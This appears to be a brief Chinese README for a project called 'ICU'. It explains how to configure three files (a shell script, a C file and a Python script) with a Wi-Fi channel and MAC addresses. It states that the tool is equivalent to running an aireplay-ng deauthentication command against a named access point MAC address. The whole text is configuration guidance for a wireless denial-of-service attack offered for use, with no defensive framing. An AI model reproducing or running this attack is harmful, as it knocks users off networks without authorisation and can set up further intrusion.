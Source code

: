 # ICU
请在0.sh中自行添加sleep 
并修改0.c中main函数里的信道b 
3.py中的addr2和addr3
该项目相当于执行
aireplay-ng -0 <int类型> -a 1C:FF:59:33:7F:FF(AP) --ignore-negative-one -D wlan0
